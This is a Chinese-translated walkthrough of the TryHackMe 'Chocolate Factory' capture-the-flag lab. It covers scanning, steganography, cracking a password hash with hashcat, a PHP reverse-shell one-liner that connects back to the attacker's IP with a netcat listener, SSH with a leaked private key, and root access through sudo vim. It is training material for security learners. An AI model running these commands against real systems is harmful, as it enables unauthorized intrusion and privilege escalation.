# TryHackMe:巧克力工厂报道

> 原文：<https://infosecwriteups.com/tryhackme-chocolate-factory-write-up-d430b53f7cb2?source=collection_archive---------1----------------------->


简单级 CTF 挑战

我们启动[机](https://tryhackme.com/room/chocolatefactory)开始黑吧！！！。

连接到您的 OpenVPN 网络并部署机器。

## 任务 2 挑战

让我们从查找开放端口的 Rustscan 开始

```
rustscan -a <machine_ip>
```



让我们打开端口 80(http)。它看起来像一个登录页面。


在 ftp 服务器中我们可以看到。jpg 图片。

```
ftp <machine_ip>
```



使用 Steghide，我们可以从。jpg 图片。

```
steghide extract -sf <file_name>
```



。txt 文件看起来像 base64 加密文件



使用 base64 工具，我们可以解密文本。

```
base64 -d b64.txt
```

该文件包含用户名和密码散列。尤其是我们需要查理的密码散列。



要破解密码散列，让我们使用 Hashcat。我复制了哈希值并将其存储在 hashes.txt 文件中

```
hashcat -a 0 -m 1800 cracked.txt hashes.txt <wordlist_file> -O
```



破解花了很长时间。



使用我们得到的密码和用户名登录。它内部有一个命令执行块。


要获得反向 shell，请键入以下命令。

```
php -r '$sock=fsockopen("<your_ip_address>",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

同时要监听，请打开终端并键入以下 Netcat 命令。

```
nc -lvp 4444
```



我们可以看到几个文件。让我感兴趣的是《钥匙 _rev_key》。当我查看文件时，我得到了第一张空白纸的钥匙。希望以后可能有用。



前往 charlie 的文件夹，我们可以看到“user.txt”文件。但是因为我们是 www-data 用户而不是 charlie。



我们可以使用 teleport (RSA 私钥)，以 charlie 的身份通过 ssh 登录。

复制传送中的内容并更改权限。

使用下面的 ssh 命令打开终端。

```
chmod 400 teleport
ssh charlie@<machine_ip> -i teleport
```



我们得到了用户标志



现在，让我们将我们的权限提升到 root 用户，以找到根标志。

```
sudo -l
```



使用 vim ( [参考](https://medium.com/@pettyhacks/linux-privilege-escalation-via-vi-36c00fcd4f5e))我们可以得到根。



一旦我们执行了这个命令，我们现在就是根用户了。前往根目录，我们可以找到一个名为 root.py 的 python 文件。

它想要一把钥匙。我输入了我们最初找到的钥匙。



根标志

最后我们还拿到了根旗！！！。

做这个挑战很有趣。希望大家学到新东西:)。

通过 [Linkedin](https://www.linkedin.com/in/vishnuram-r/) 和[我的网站](https://vishnuram1999.github.io/)和我联系。